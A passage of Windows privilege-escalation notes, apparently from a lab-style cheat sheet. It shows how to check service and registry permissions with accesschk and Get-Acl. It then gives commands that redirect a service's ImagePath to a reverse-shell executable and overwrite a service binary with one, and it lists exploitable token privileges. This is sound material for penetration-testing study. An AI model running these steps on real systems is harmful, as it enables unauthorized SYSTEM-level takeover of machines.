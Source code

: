 > To exploit this we have two possible ways, one we can remove the existing exe file and replace with our rev.exe to get reverse shell and two we have to modify the registry path itself to our rev.exe file.


Check the directory permissions

```powershell
.\accesschk.exe /accepteula -dvwq "C:\program files\insecure registry service\"
```

Check services permissions

```powershell
C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc

or

Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
```

To check ALL registries, we can do:

```powershell
C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services
```

Change registry imagepath

```powershell
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
```

```powershell
sc start regsvc
```

### Insecure Service Executables


In case we have  READ/WRITE permission over the folder of the service, we can simply do:

```powershell
copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
```

To be root

### Token Manipulation

whoami /priv

- SeDebugPrivilege
- SeRestorePrivilege
- SeBackupPrivilege
- SeTakeOwnershipPrivilege
- SeTcbPrivilege
- SeCreateToken Privilege
- SeLoadDriver Privilege
- SeImpersonate & SeAssignPrimaryToken Priv.
